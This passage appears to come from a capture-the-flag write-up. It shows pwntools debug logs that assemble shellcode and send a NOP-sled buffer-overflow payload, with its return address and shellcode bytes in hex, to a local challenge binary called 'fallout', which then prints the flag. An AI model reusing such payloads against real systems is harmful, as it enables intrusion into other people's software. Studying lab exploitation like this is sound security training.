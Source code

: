 ```shell
        push 60 /* 0x3c */
        pop rax
        syscall
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-l4rclyu_/step2 /tmp/pwn-asm-l4rclyu_/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-l4rclyu_/step3 /tmp/pwn-asm-l4rclyu_/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-gyxdakhl/step2 /tmp/pwn-asm-gyxdakhl/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-gyxdakhl/step3 /tmp/pwn-asm-gyxdakhl/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-k7b0o8nu/step2 /tmp/pwn-asm-k7b0o8nu/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-k7b0o8nu/step3 /tmp/pwn-asm-k7b0o8nu/step4
[DEBUG] Received 0x34 bytes:
    b'Welcome to the fallout, we have a message for you >\n'
[DEBUG] Sent 0x9b bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000040  90 90 90 90  90 90 90 90  5a 11 40 00  00 00 00 00  │····│····│Z·@·│····│
    00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    00000060  68 75 79 75  01 81 34 24  01 01 01 01  48 b8 6d 65  │huyu│··4$│····│H·me│
    00000070  73 73 61 67  65 2e 50 6a  02 58 48 89  e7 31 f6 0f  │ssag│e.Pj│·XH·│·1··│
    00000080  05 41 ba ff  ff ff 7f 48  89 c6 6a 28  58 6a 01 5f  │·A··│···H│··j(│Xj·_│
    00000090  99 0f 05 31  ff 6a 3c 58  0f 05 0a                  │···1│·j<X│···│
    0000009b
[*] Switching to interactive mode

[*] Process './fallout' stopped with exit code 0 (pid 86826)
[DEBUG] Received 0x17 bytes:
    b'w3lc0me_t0_th3_f4ll0u7\n'
w3lc0me_t0_th3_f4ll0u7
[*] Got EOF while reading in interactive
$
```

We successfully executed our malicious shellcode.

